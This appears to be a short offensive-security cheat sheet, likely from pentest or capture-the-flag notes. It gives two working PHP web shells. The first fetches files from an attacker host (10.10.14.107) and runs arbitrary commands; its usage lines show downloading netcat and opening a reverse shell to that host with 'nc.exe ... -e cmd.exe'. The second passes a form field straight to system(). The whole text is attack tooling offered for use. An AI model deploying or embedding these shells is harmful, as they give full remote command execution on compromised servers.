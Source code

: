 ## PHP Shell
*fupload* function is used to upload files to the remote machine\
*fexec* function is used to execute commands on the remote machine

usage:
```
shell.php?fupload=nc.exe
```
```
shell.php?fexec=nc.exe 10.10.14.107 1234 -e cmd.exe
```
code:
```
<?php 
 if (isset($_REQUEST['fupload'])) {
 file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.107:8000/" . $_REQUEST['fupload']));
 };
 if (isset($_REQUEST['fexec'])) {
 echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
 };
?>
```

## PHP Web Shell
usage:
```
shell.php?cmd=systeminfo
```
code:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
